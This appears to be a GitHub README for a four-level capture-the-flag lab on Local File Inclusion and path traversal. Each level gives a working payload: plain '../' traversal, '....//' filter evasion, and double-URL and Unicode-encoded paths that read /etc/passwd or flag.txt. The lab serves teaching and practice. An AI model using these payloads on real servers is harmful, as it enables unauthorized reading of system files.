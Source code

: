# 🛡️ LFI / Path Traversal CTF

This repository contains a custom Capture the Flag (CTF) challenge series focused on **Local File Inclusion (LFI)** and **Path Traversal** vulnerabilities. The CTF progresses in difficulty from basic file reads to advanced bypass techniques.

---

## 🔧 Requirements

- Browser or tools like `curl`/`BurpSuite`
- Basic understanding of:
  - URL encoding
  - File system traversal
  - Web application behavior (esp. Spring Boot for Level 3)

---

## 🚩 Levels & Payloads

### 📂 Level 1 — No Protection (Basic Traversal)
Straightforward file path traversal, no sanitization or filtering.

- **Payload**: `../../../../../../../etc/passwd`
- **Alternate**: `../flag.txt`

---

### 🧱 Level 2 — Filter Evasion via Slash Injection
Basic filtering in place for `"../"` patterns, but no normalization applied.

- **Payload**: `....//....//....//....//....//etc/passwd`

_This leverages how `....//` is interpreted as `../` after normalization._

---

### 🔒 Level 3 — Blacklisted Patterns (Double Encoding Bypass)
The application decodes the input twice. Blacklists are applied only after the first decoding pass (common in Spring Boot apps).

- **Payload**: `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%2565%2574%2563%252f%2570%2561%2573%2573%2577%2564`

### 🌐 Level 4 — Unicode + URL Encoding Bypass
Strict sanitization blocks normal encoding. Use Unicode with URL encoding.

- **Payload**: `%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%32%65%5c%75%30%30%32%65%5c%75%30%30%32%66%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%36%33%5c%75%30%30%32%66%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%37%37%5c%75%30%30%36%34`

- **Decoded Path**:
`\u002e\u002e\u002f\u002e\u002e\u002f\u002e\u002e\u002f\u002e\u002e\u002f\u002e\u002e\u002f\u002e\u002e\u002fetc/passwd`

- **Note**: Exploits double decoding and Unicode parsing by some Java/Spring Boot servers.


## 🎯 Objective

In each level, your goal is to:

- Read the `/etc/passwd` file (on Linux-based servers)
- Or extract the `flag.txt` file